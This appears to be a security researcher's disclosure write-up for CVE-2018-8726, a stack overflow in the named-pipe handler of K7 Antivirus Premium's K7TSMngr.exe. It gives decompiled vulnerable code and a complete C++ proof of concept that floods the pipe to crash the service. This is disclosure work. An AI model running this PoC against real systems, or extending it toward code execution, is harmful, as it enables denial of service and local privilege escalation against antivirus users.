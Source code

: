 # CVE-2018-8726

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 16.0.0.0* 
* **Component**: *K7TSMngr.exe 16.0.0.70*
  * SHA256: E6655EBC79644E7DB6FC36B2D98DE88A9635F47B3ADF1D834FD357D5EA3E15A6

# K7TSMngr.exe Pipe Handler Background
*See description in [CVE-2018-8724](../CVE-2018-8724/readme.md)*

# Details
Following on from the background piece above regarding the Pipe, the handler for the function id 0x10033 has a vulnerability which can easily lead to a stack overflow. As there are stack cookies in place, it isn't possible to simply overwrite the return pointer without some extra form of information disclosure.

When sending this function id in, it will ultimately call the function sub_409A60

```C++

typedef struct _unk_10033
{
    CHAR szMode[64];
    CHAR szKeyName[64];
    BOOL bDisableWarning;
    BOOL bDisableTimeOut;
} unk_10033;



BOOL __stdcall sub_409A60(int dwInSize, unk_10033 *pInput, int dwOutSize, int pOutput, int a5)
{
    // Ensure that the input buffer >= 0x88, note there is no upper limit on the length
    if ( (unsigned int)dwInSize < 0x88 )
        return 0;
    if ( _stricmp(pInput->szMode, "GamingMode") )
        // Make szMode be anything other than "GamingMode" (case-insensitive) to get in here...
        return sub_401A40((int)pInput->szKeyName, pInput->bDisableWarning, pInput->bDisableTimeOut) == 1;
    
    // ... other coee but redacted ...
}

int __cdecl sub_401A40(int pszSomething, BYTE DisableWarning, BYTE bDisableTimeOut)
{
    int v3; // ecx
    HKEY v4; // esi
    CHAR szKey[260]; // [esp+0h] [ebp-108h]

    if ( pszSomething && *(_BYTE *)pszSomething )
    {
        // VULN: pszSomething is provided to be and can be any length. szKey is only 260 characters
        // and butts right up against the stack cookie. 
        wsprintfA(szKey, "%s\\%s\\%s\\%s", "Software\\K7 Computing\\K7TotalSecurity", "Products", v3, pszSomething);
    }
    // ... removed rest of routine, not relavent ...
    return 1;
}

/*
Stack Layout from IDA:
-00000108
-00000108 szKey           db 260 dup(?)
-00000004 Cookie          dd ?
+00000000  r              db 4 dup(?)
*/
```

As can be seen from the code, the actual overflow is simple to tigger but it will not provide code execution without a bit more work. As there were other easier vulnerabilities I was getting LPE with, I didn't progress this much more than the demonstration of the overflow.

# PoC Code

```C++
#include <Windows.h>
#include <stdio.h>

// Pipe header structure to simply talk to the pipe
typedef struct _unk1
{
	DWORD dwMagic;
	DWORD dwControlCode;
	DWORD dwInSize;
	DWORD field_c;
	DWORD dwFunctionId;
	DWORD dwInputDataSize;
	DWORD dwOutputDataSize;
} unk1;

// Structure specific to the Function Id 10033. This is slightly different to the one in the 
// snippets above as we don't care about the other fields and simply want to send over a
// a huge packet to overflow the stack.
typedef struct _unk_10033
{
	CHAR szMode[64];
	CHAR szKeyNameAsFlood[0x10000];
} unk_10033;


int main(int argc, char** argv)
{
	HANDLE hPipe = CreateFileA("\\\\.\\pipe\\K7TSMngrService1", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hPipe == INVALID_HANDLE_VALUE)
	{
		printf("CreateFileW Failed: 0x%08x\r\n", GetLastError());
		return 0;
	}

    // Setup the connection
	unk1 u1 = { 0 };
	u1.dwMagic = 0x4B375453;
	u1.dwControlCode = 0x1010;
	u1.dwInSize = 28;
	u1.dwFunctionId = 0x10033;

	u1.dwInputDataSize = sizeof(unk_10033);
	u1.dwOutputDataSize = 0x100;

	DWORD dwBytesWritten = 0;
	if (!WriteFile(hPipe, &u1, sizeof(u1), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return 0;
	}

	// This will trigger the stack overflow
	unk_10033 u1033 = { 0 };
	memset(u1033.szMode, 0x41, sizeof(u1033.szMode));
	memset(u1033.szKeyNameAsFlood, 0x42, sizeof(u1033.szKeyNameAsFlood));

	if (!WriteFile(hPipe, &u1033, sizeof(u1033), &dwBytesWritten, NULL))
	{
		printf("WriteFile 2 Failed: 0x%08x\r\n", GetLastError());
		return 0;
	}
	

    return 1;
}


```
